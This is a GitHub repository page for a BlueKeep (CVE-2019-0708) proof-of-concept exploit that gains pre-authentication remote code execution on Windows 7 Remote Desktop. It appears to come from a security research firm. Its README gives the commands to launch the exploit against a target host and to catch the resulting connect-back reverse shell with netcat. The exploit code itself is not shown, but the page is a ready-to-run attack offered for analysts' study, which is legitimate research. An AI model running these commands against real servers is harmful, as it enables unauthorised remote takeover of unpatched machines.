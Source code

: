 # CVE-2019-0708

CVE-2019-0708 (BlueKeep) proof of concept allowing pre-auth RCE on Windows7

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/RICSecLab](https://github.com/RICSecLab) |
| Url      | [https://github.com/RICSecLab/CVE-2019-0708](https://github.com/RICSecLab/CVE-2019-0708)                                               |
| Stars    | 100                                                          |
| License  | Apache License 2.0                                                        |

<details><summary>Topic / Tags</summary></details>

## Readme

# CVE-2019-0708 (BlueKeep) pre-auth RCE POC on Windows7
[![Ricerca Security, Inc.](./data/logo_color2.jpg)](https://ricsec.co.jp)

This repository demonstrates the remote code execution bug in Windows Remote Desktop Services (RDS).   

Here is a POC code and technical report about BlueKeep vulnerability, which we developed before.  
**NOTE:** Our goal is helping analysts to get better understanding about critical vulnerabilities.  
# How to use

### Prerequisites
Our exploit code is written in Python 3, and relies on [PyRDP](https://github.com/GoSecure/pyrdp) library. 
Please set up them following the installation guide of PyRDP.

### Usage
Currently our exploit targets, and is tested on, Windows 7 SP 1(6.1.7601) x64 on Virtual Box.

If your computer has the IP address 192.168.56.1 and you target the RDP server at example.com:1234, then type
```
$ python exploit.py example.com -rp 1234 192.168.56.1
```

If the script successfully exploits the server, a connect-back shellcode initiates a TCP connection from the server back to 192.168.56.1:4444.
Therefore, for example you should wait for the connection with netcat:
```
$ nc -v -l 4444
```

If you want to change the port number to which the server connect back, use the `-bp` option:
```
$ python exploit.py example.com -rp 1234 192.168.56.1 -bp 4567
```
